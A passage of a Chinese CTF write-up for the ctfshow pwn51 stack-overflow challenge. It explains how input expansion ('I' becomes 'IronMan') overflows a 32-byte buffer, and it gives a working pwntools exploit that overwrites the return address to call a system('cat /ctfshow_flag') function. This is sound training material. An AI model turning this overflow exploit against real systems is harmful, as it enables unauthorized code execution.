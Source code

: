 初略理解之下，知道s就是要溢出的对象，认为偏移值就是char s[32]; // [esp+Ch] [ebp-6Ch] BYREF，也就是0x6C+4

string界面还能找到一条system指令

```C++
int sub_804902E()
{
  return system("cat /ctfshow_flag");
}
```

初步尝试失败，虽然看着应该没什么问题

但是貌似有限制输入

所以尝试输入0x6C+4的‘a’就没办法输出够

看WP才知道主函数里面会把I换成IronMan

16个I的输入就能刚刚好变成112字节IronMan，完成溢出效果

然后后续跟一个system函数位置就好了

exp：

```python
from pwn import *
u=remote("pwn.challenge.ctf.show",28223)
payload=b'I'*16+p32(0x0804902E)
#payload=b'I'*16+p32(0x08049042)
u.sendline(payload)
u.interactive()
```

此事在直接本地运行亦有记载（

```c
ctfshow@ubuntu:~/Desktop/xd/LibcSearcher$ ./pwn51
    ▄▄▄▄   ▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄            ▄▄                           
  ██▀▀▀▀█  ▀▀▀██▀▀▀  ██▀▀▀▀▀▀            ██                           
 ██▀          ██     ██        ▄▄█████▄  ██▄████▄   ▄████▄  ██      ██
 ██           ██     ███████   ██▄▄▄▄ ▀  ██▀   ██  ██▀  ▀██ ▀█  ██  █▀
 ██▄          ██     ██         ▀▀▀▀██▄  ██    ██  ██    ██  ██▄██▄██ 
  ██▄▄▄▄█     ██     ██        █▄▄▄▄▄██  ██    ██  ▀██▄▄██▀  ▀██  ██▀ 
    ▀▀▀▀      ▀▀     ▀▀         ▀▀▀▀▀▀   ▀▀    ▀▀    ▀▀▀▀     ▀▀  ▀▀  
    * *************************************                           
    * Classify: CTFshow --- PWN --- 入门                              
    * Type  : Stack_Overflow                                          
    * Site  : https://ctf.show/                                       
    * Hint  : Who are you?                                            
    * *************************************                           
Who are you?
I
Wow!you are:IronMan
```

## pwn52
